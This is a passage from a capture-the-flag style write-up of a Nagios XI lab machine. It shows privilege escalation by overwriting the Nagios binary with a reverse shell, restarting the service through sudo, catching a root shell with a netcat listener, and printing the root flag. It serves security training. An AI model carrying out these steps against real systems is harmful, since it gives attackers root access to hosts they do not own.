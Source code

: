 ```shell
    Process: 28252 ExecStopPost=/usr/bin/rm -f /usr/local/nagios/var/rw/nagios.cmd (code=exited, status=0/SUCCESS)
   Main PID: 26072 (code=exited, status=0/SUCCESS)
        CPU: 3.660s
```

The "/usr/local/nagios/bin/nagios" binary is replaced with the reverse shell.

```shell
www-data@monitored:/tmp$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 717648 Nov  9 10:40 /usr/local/nagios/bin/nagios
www-data@monitored:/tmp$ cat shell > /usr/local/nagios/bin/nagios
www-data@monitored:/tmp$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 194 Feb 26 04:23 /usr/local/nagios/bin/nagios
```

A netcat listener on port 4444 is activated and the Nagios service is started again.

```shell
www-data@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start nagios
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.7  netmask 255.255.254.0  destination 10.10.14.7
        inet6 fe80::309:a543:686d:3a01  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1005  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.248] 40098
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@monitored:/# whoami
root
```

Simply root.

***root.txt***: f3808ad5382a4ba2a89a0e9e738d89e7

![](img/monitored31.png)





